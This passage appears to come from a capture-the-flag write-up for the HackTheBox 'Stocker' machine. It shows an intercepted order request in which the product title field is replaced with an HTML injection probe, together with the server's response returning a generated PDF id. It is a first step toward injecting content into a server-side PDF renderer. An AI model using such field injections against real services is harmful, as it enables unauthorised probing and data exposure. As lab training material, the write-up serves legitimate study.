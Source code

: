 Now this is interesting for us.

```bash

POST /api/order HTTP/1.1
Host: dev.stocker.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://dev.stocker.htb/stock
Content-Type: application/json
Origin: http://dev.stocker.htb
Content-Length: 195
Connection: close
Cookie: connect.sid=s%3AbJDgribzFlsxX6bWGc2SXpNYUW4JptWX.mZxgaHsLBo3x1QVe%2BJ0dWssycRJ6jSJkOelyyA2%2Fd9A

{"basket":[{"_id":"638f116eeb060210cbd83a8d","title":"<h1><u>Nehal Hacks For Good</u></h1>","description":"It's a red cup.","image":"red-cup.jpg","price":32,"currentStock":4,"__v":0,"amount":1}]}

```

```html

HTTP/1.1 200 OK
Server: nginx/1.18.0 (Ubuntu)
Date: Sat, 21 Jan 2023 08:21:27 GMT
Content-Type: application/json; charset=utf-8
Content-Length: 53
Connection: close
X-Powered-By: Express
ETag: W/"35-Tzjn01Rk42SDueMgKwQNQcjXLvw"

{"success":true,"orderId":"63cba087436910054f762153"}

```

While making an order, the `title` key's value is changed to `<h1><u>Nehal Hacks For Good</u></h1>`. 

In the response, the `id` of generated pdf is sent.
